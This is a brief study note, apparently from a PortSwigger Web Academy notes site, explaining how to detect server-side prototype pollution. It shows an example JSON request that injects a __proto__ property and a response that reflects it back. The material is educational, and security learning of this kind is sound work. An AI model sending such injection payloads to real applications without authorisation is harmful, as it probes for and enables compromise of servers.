 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/polluted-property-reflection/"}
---
```



---

Either way, if an application returns properties in a response, especially in a POST or PUT request that submits JSON data, they can be prime targets for Server-Side Prototype Pollution. In this case, we are polluting the global `Object.prototype`

```
POST /user/update HTTP/1.1 
Host: vulnerable-website.com 
... 
{ 
	"user":"wiener", 
	"firstName":"Peter", 
	"lastName":"Wiener", 
	"__proto__":{ 
		"foo":"bar" 
	} 
}
```

If the website is vulnerable, the injected property would appear in the response:

```
HTTP/1.1 200 OK 
... 
{ 
	"username":"wiener", 
	"firstName":"Peter", 
	"lastName":"Wiener", 
	"foo":"bar" 
}
```


